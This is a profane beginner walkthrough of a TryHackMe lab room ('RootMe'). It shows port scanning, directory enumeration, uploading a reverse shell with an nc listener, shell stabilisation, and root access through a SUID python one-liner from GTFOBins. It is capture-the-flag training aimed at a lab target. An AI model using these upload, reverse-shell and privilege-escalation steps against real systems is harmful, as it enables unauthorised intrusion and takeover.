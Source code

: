 # Hello World?

So tbh this was supposed to be a programming tutorial but....

SIKE! We're gonna go do the fast lane, so buckle up, you're in for the ride whether you like it or not!

## Tools

Ok, so before we begin, be sure you have a nice stable linux distro at your disposal or just use windows if you're a psychopath (if you use arch, stfu and follow, we don't need to hear about it). Done? Now make sure you have the following with ya:

1. [`nmap`](https://nmap.org/): For port scanning (or just use [`rustscan`](https://rustscan.github.io/RustScan/) if you're cool like me ;D)
2. [`gobuster`](https://github.com/OJ/gobuster) or [`ffuf`](https://github.com/ffuf/ffuf) or [`feroxbuster`](https://github.com/epi052/feroxbuster): For fuzzing and stuff like directory enumeration.
3. [`hydra`](https://github.com/vanhauser-thc/thc-hydra): For brute forcing passwords and stuff
4. [`BurpSuite`](https://portswigger.net/burp): For fucking webapps/websites in the ass (literally)

And... that's all. No, really. You won't need much. I _will_ be mentioning tools and using all kinds of things, so be sure to know how to get stuff and install it because it's quite the essential skill.&#x20;

## Hack The World!

Idk about the titles, feel free to suggest stuff.

Before we begin, get a [`TryHackMe`](https://tryhackme.com/) account, go to their [`Access`](https://tryhackme.com/access) page and get, well, _access_ (the `openvpn` file). Once you got that, connect to the VPN. We're gonna start off by doing the [`RootMe`](https://tryhackme.com/room/rrootme) room. (Yeah, ikr!)

### Step 1: Recon

I hear you, I hear you. Probably having a shit ton of questions, like _what are ports?_ or something like _you should probably slow down for the beginners_. The last one is not a question, but yeah... I know this is kinda confusing but you know what?&#x20;



<details>

<summary>...</summary>

FUCK YOU! This is the fast lane bitches HAHAHAHAHA!&#x20;

You don't _need_ to understand every small detail. Just memorize all the steps for now. You'll understand sooner or later.&#x20;



Guess what? If you don't understand it, JUST GOOGLE IT BUDDY. Honestly, if you don't make it into a hobby to read computer science stuff and security theory in your free time you're quite fucked. Sure you'll be able to do some stuff, but good fucking luck growing  and getting someplace real.

</details>

Now that that's done, let's do some port scanning. Here's the command to do that. Don't forget to connect to the VPN and fire up the VM in the tryhackme (THM) room.

```shell-session
n00bie@NOT_ARCH $ sudo nmap -p- -sS -sV -oN ports.txt TARGET_IP 
```

Now, if you weren't a dumbass and if everything goes well, you should see something like this:

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-13 00:27 BST
Nmap scan report for TARGET_IP
Host is up (0.083s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.91 seconds
```

Woah, lots of text... **s c a r y** :skull:

Well, not really. See that text carefully? Here's what we're interested in:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Basically, there's a `ssh` service running on port 22. Port 80 has a http server running Apache on it, which basically means that if you look up: `http://TARGET_IP:80/` on a web browser, you'll be greeted with a webapp/webpage.&#x20;

Since there's a website running, we can use `gobuster` to fuzz and find directories on the web application. Think of these as places you can go inside the webapp. Sometimes devs make a woopsie and forget to restrict access to those and we can go to places where we are not supposed to be. (God that's a cringe way of explaining this but I'll keep it for content ig).

Here's a neat little command to do what I just mentioned:

```shell-session
n00bie@NOT_ARCH$ gobuster dir -u http://TARGET_IP:80/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 32 -o direnum.txt
```

{% hint style="info" %}
If you don't have that wordlist, don't worry, just visit [`Seclists`](https://github.com/danielmiessler/SecLists) to get it. There's also a package called `seclists` on kali that you can use `apt` to get.
{% endhint %}

This'll take some time, so you should go get a fucking coffee or something idk. Done? Now let's have a look at what we got:

<details>

<summary>gobuster</summary>

```shell-session
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.55.244/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/13 11:57:47 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.55.244/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.55.244/css/]    
/js                   (Status: 301) [Size: 309] [--> http://10.10.55.244/js/]     
/panel                (Status: 301) [Size: 312] [--> http://10.10.55.244/panel/]
```

</details>

Lots of text... _again_. BUT WAIT, it's the same as `nmap`, there's only a specific section we're interested in:

```
/uploads              (Status: 301) [Size: 314] [--> http://10.10.55.244/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.55.244/css/]    
/js                   (Status: 301) [Size: 309] [--> http://10.10.55.244/js/]     
/panel                (Status: 301) [Size: 312] [--> http://10.10.55.244/panel/]
```

This shows us the places we can visit. Try visiting some of them, see what's up and most importantly... _**see if you can break something by goofing around.**_



Done? Good. Now it's time for phase 2

### Step 2: Initial Access

If you did not notice yet, or don't know, the `/panel` place allows us to upload stuff to the website and the `/uploads` place lists them for us to be able to access them (duh!). Now, the question is... _how the fuck do we exploit this to get into the system??_

Simple! Use something called a **Reverse shell.** Don't have one? No idea how to write one? Just look it up, here's a nice website for it:

{% embed url="https://www.revshells.com/" %}

Get the `Pentestmonkey` one (phunny name hehe). Modify fill in the fields on the website to match your IP (`ip addr` on your system, grab the `tun0` one), and change the port to 4444, and upload that sucker!



Next, we start a listener on our systems:

```shell-session
n00bie@NOT_ARCH$ nc -nvlp 4444
listening on [any] 4444 ...
```

Cool! DONT TOUCH IT NOW, KEEP IT RUNNING!

Go to the `/uploads` path and try and access the file you uploaded. The page will look like it's stuck or keeps loading forever. Don't worry, keep it as it is and go back to the listener:

```shell-session
n00bie@NOT_ARCH$ nc -nvlp 4444
listening on [any] 4444 ...
...
/bin/sh: 0: can't access tty; job control turned off
$ 
```

BOOM, now you have a shell on the remote server! (HOW FUCKING COOL IS THAT, RIGHT?)

BUT WAIT! THERE'S MORE! You see, if you don't wanna die a very painful death by trying to operate in an unstable reverse shell, you're free to continue, but for those of you who _don't_ wanna get fucked, let's stabilize this shell. Follow these exactly:

1. `python -c 'import pty; pty.spawn("/bin/bash")'` in the shell session you have.
2. Ctrl+Z to background the process
3. `stty -raw echo && fg` (This may make your terminal looked fucked, dw just continue)
4. `export TERM=xterm`

Done! Now if you did not fuck up, you should have a stable shell which can be cleared and you can do `Ctrl+C` to stop processes. If you _did_ fuck up, don't worry, just start another listener and try accessing the payload file from `/uploads` again to get another different reverse shell.

You now have _stable shell access to a remote server_. This... is initial access, now we do something even better. Get root/admin access :>



### Step 3: Privilege Escalation&#x20;

This is one of the parts where you won't have one fucking clue why I do what I do, but still follow along and remember whatever details you can. We're gonna do something called _Exploiting the SUID bit_. (Because the room gives us a hint to use that)

Here's a command to search for all the files which have their SUID bit set:

```shell-session
n00bie@NOT_ARCH$ find / -perm /u=s,g=s 2>/dev/null
```

You'll see a bunch of shit, most of it is useless, but one stands out:

```
/usr/bin/python
```

Look it up on [`GTFOBins`](https://gtfobins.github.io/):

{% embed url="https://gtfobins.github.io/gtfobins/python/#suid" %}

You'll find the command there, executing that gives us root/admin access:

```shell-session
n00bie@NOT_ARCH$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
root@NOT_ARCH# whoami
root
```

And... that's how you hack. Like it? Don't worry, it'll get a lot more _fun_ as we go ahead.

